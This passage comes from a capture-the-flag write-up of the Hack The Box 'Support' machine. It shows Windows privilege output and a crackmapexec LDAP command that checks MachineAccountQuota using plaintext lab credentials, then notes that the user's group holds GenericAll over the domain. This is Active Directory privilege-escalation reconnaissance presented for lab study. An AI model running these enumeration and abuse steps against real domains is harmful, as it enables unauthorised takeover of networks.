 ```ruby
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Since I have `SeMachineAccountPrivilege` privilege, I can add fake computers, let's see what I can do with that

The machine account quota settings wasn't patched

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support/loot/smb]
└─$ cme ldap support.htb -u support -p 'Ironside47pleasure40Watchful' -M maq
SMB         10.129.227.255  445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
LDAP        10.129.227.255  389    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
MAQ         10.129.227.255  389    DC               [*] Getting the MachineAccountQuota
MAQ         10.129.227.255  389    DC               MachineAccountQuota: 10
```

> **MachineAccountQuota**
> > MachineAccountQuota (MAQ) is a domain level attribute that by default permits unprivileged users to attach up to 10 computers to an Active Directory (AD) domain
{: .prompt-tip }

Look for dangerous permissions such as `GenericALL`, `GenericWrite`, `WriteDACL` ... etc

> Refer - https://www.thehacker.recipes/a-d/movement/dacl#permisssions-index
{: .prompt-tip }

Our group : `Shared Support Account` have `GenericALL` perms to the domain

